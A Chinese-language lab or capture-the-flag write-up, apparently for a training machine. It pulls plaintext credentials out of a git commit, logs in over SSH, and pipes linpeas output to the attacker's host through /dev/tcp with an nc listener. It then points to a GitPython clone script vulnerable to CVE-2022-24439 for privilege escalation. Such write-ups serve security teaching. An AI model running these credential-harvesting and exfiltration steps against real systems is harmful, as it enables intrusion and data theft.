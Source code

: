 進去看 commit 會在 `1e84a036b2f33c59e2390730699a488c65643d28` 發現另一組帳號密碼 `prod` `080217_Producti0n_2023!@`
```git
git show 1e84a036b2f33c59e2390730699a488c65643d28

template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.
Your login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.
Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.
Best regards, " + api_editorial_name + " Team."
TODO: replace dev credentials when checks pass
```

成功 ssh
![image](https://hackmd.io/_uploads/SyKo5LfS1g.png)

用 linpeas.sh 檢查一下順便傳一份回本地
```bash=
目標主機
./linpeas.sh | tee 123.txt 
cat 123.txt > /dev/tcp/10.10.14.4/8888 0>&1

本地
nc -nvlp 888 > 123.txt
```

可以在裡面看到有一個特別的檔案 `/opt/internal_apps/clone_changes/clone_prod_change.py`
![image](https://hackmd.io/_uploads/Skwwttzrkx.png)

看他的 code
chatgpt 的解釋
![image](https://hackmd.io/_uploads/By8bRFzSkl.png)

```python=
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

上網找有沒有相關的漏洞 找到一個 gitpython 3.1.30 以下的 [CVE-2022-24439](https://github.com/gitpython-developers/GitPython/issues/1515)
![image](https://hackmd.io/_uploads/HkSLRFGSye.png)
